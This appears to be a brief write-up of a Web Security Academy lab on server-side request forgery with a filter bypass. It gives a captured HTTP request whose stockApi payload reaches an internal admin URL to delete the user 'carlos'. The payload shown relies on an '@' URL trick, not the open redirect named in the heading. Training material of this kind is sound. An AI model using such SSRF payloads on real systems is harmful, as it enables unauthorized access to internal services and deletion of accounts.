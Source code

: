 ## Lab: SSRF with filter bypass via open redirection vulnerability


This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 


```
POST /product/stock HTTP/1.1
Host: 0ad400fc031f5bf5c095c742008b00b5.web-security-academy.net
Cookie: session=86o79aI6P2DALwY2Gd33xdzEaXiFD9Ga; session=1tbyFqG1vHQo3RajHx16QLgtVSF0ObTq
Content-Length: 56
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ad400fc031f5bf5c095c742008b00b5.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad400fc031f5bf5c095c742008b00b5.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=@192.168.0.12:8080/admin/delete?username=carlos


```

